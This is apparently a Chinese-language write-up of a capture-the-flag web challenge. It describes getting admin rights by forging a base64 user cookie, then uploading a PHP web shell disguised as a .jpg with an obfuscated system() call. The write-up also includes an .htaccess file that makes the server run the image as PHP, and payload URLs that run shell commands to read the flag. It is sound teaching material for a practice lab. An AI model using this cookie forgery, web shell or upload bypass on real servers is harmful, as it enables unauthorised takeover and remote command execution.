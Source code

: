 0 solved

### 解题思路

拿到题目首先注册登陆，进去之后可以看到文件上传页面，但是上传文件需要admin的密码，所以要解决的第一个问题就是如何得到admin密码。

这次比赛里有人尝试了数据库注入，其实这道题也是有可能注出来的，但是对于大家现阶段来说可能是有难度的，详细的大家可以再尝试一下二次注入，出题人太懒了就不给注入方向的wp了。（有人做的话可以问我

题目中的简单功能有注册、登陆、上传文件、改密码，很多人没有注意到改密码这一项。

进去改密码这一项，截个包：

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118170929.png)

cookie里面很明显有user这一项，url解码后base64解码一下得到yyptest，发现就是用户名。结合题目给的hint可知，每个人的管理员就是用户名+'admin'，于是改user，user = eXlwdGVzdGFkbWlu。

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118170953.png)

修改成功, 发现此时已经可以上传文件。这道题其实就是上传一个.htaccess文件的问题。

根据报错提醒，构造一个.jpg文件，内容为

```php
<?php
$a = 'sys';
$b = 'tem';
$c = $a.$b;
$c($_GET[cmd]);
?>
```

再上传.htaccess文件，内容为：

```<FilesMatch 1.jpg>
<FilesMatch 1.jpg>
SetHandler application/x-httpd-php
</FilesMatch>
```

这个文件的大概意思就是用解析php的方式来解析1.jpg这个文件。
payload1: http://120.78.71.12:2203/uploads/1.jpg?cmd=ls .. (得flag位置)
payload2：http://120.78.71.12:2203/uploads/1.jpg?cmd=cat ../flag.php
得flag:

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118171158.png)


